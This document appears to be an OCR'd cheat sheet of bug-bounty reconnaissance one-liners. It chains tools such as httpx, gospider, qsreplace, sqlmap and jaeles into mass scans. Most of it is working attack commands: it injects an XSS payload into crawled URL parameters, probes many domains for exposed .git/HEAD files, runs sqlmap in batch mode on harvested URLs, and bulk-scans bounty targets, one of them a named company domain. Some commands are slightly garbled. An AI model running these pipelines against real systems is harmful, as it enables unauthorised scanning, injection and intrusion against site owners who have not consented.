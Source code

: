 ###  HTTPX using new mode location and injection XSS using qsreplace.

- [Explained command]

```bash
httpx -l master.txt -silent -no-color -threads 300 -location 301,302 | awk '{print $2}' | grep -Eo '(http|https)://[^/"].*' | tr -d '[]' | anew  | xargs -I@ sh -c 'gospider -d 0 -s @' | tr ' ' '\n' | grep -Eo '(http|https)://[^/"].*' | grep "=" | qsreplace "<svg onload=alert(1)>" "'
```

###  Grap internal juicy paths and do requests to them.

- [Explained command]

```bash
export domain="https://target";gospider -s $domain -d 3 -c 300 | awk '/linkfinder/{print $NF}' | grep -v "http" | grep -v "http" | unfurl paths | anew | xargs -I@ -P50 sh -c 'echo $domain@ | httpx -silent -content-length'
```

###  Download to list bounty targets We inject using the sed .git/HEAD command at the end of each url.

- [Explained command]

```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv | cat domains.txt | sed 's#$#/.git/HEAD#g' | httpx -silent -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```

###  Using to findomain to SQLINJECTION.

- [Explained command]

```bash
findomain -t testphp.vulnweb.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1
```

###  Jaeles scan to bugbounty targets.

- [Explained command]

```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | anew | httpx -silent -threads 500 | xargs -I@ jaeles scan -s /jaeles-signatures/ -u @
```

###  JLDC domain search subdomain, using rush and jaeles.

- [Explained command]

```bash
curl -s "https://jldc.me/anubis/subdomains/sony.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | httpx -silent -threads 300 | anew | rush -j 10 'jaeles scan -s /jaeles-signatures/ -u {}'
```
